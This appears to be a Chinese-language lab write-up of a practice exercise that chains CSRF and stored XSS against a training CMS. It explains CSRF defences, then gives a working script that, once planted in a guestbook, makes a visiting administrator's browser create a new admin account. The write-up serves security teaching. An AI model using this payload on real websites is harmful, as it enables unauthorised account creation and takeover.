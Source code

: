## 实验说明

> 实验环境

- Windows Server 2022
- Kali Linux
- CMS靶场(文章管理系统)

> 实验目标

1. 通过目标的业务流程分析，使用BP验证是否存在漏洞
2. 在存在CSRF和XXS漏洞的目标，结合XSS触发CSRF攻击；完成后台管理账号的创建。



## 相关知识

### CSRF原理

> CSRF原理

攻击者可以伪造当前已经登录的用户的身份访问正常的网站，执行非本意的操作。正常的网站由于没有对来源请求进行一个严格的验证和过滤，导致攻击者可以伪造正常的用户请求，达到攻击目的。

> 漏洞危害

攻击者借用正常用户的身份，发起更改状态的请求，如：银行转账、修改密码、群发消息

---

> 防止 CSRF 攻击，可以采取以下几种防御措施：

1. **同源检测：** 网站可以检测请求的来源是否与自己的域名一致，若不一致则拒绝请求。（验证Referer 字段）
2. **加入随机 Token：** 在每个表单或者请求中加入一个随机生成的 Token，并将该 Token 存储在会话中，当请求发送时，服务器会验证 Token 的有效性，若 Token 不匹配则拒绝请求。Token只会在真正的客户端中有。
3. **使用 Cookie 的 SameSite 属性：** 设置 Cookie 的 SameSite 属性为 Strict 或者 Lax，可以限制 Cookie 在跨站请求时是否发送，从而减少 CSRF 攻击的风险。
4. **二次验证：** 对于一些敏感操作，可以要求用户输入验证码来验证身份，从而增加攻击者的难度。

---



## 实验过程

---

**我们思考，如果一个地方既存在CSRF漏洞，又存在XSS漏洞，那么是否可以结合一下？**

> 1.通过BP我们抓取到用户添加的请求

![image-20240329144717841](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240329144717841.png)

> 2.验证是否存在CSRF漏洞
>
> Burp Suite 自带CSRF PoC generator插件，可以根据请求构造表单，进行CSRF 漏洞验证

![image-20240329144940788](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240329144940788.png)

针对该请求构造表单并生成网页

![image-20240329145208510](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240329145208510.png)

在用户没有退出登录的情况下，访问该网页，如果用户创建成功，则代表有CSRF漏洞

![image-20240329145407358](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240329145407358.png)

![image-20240329145430546](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240329145430546.png)



创建成功，显然，存在CSRF漏洞；

---

接下来我们尝试寻找XSS漏洞；

1.在留言板处输入js代码，查看是否可以执行

![image-20240329145949105](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240329145949105.png)

![image-20240329150006799](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240329150006799.png)

我们发现，完全可以执行成功，代表存在XSS漏洞；

----

此时，我们就可以将CSRF和XSS相结合；

通过对用户添加的请求仔细审阅，构建出如下js语句：

```html
<script>
xmlhttp = new XMLHttpRequest();
xmlhttp.open("post","http://192.168.1.8/cms/admin/user.action.php",false);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send("act=add&username=hello&password=111&password2=111&button=%E6%B7%BB%E5%8A%A0%E7%94%A8%E6%88%B7&userid=0");
</script>
```

![image-20240329150322594](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240329150322594.png)

当管理员访问留言板时，CSRF被触发；

![image-20240329151140420](https://typora-picgo-push.oss-cn-hangzhou.aliyuncs.com/img-for-typora/image-20240329151140420.png)

可以看到，hello用户被成功创建；

---



















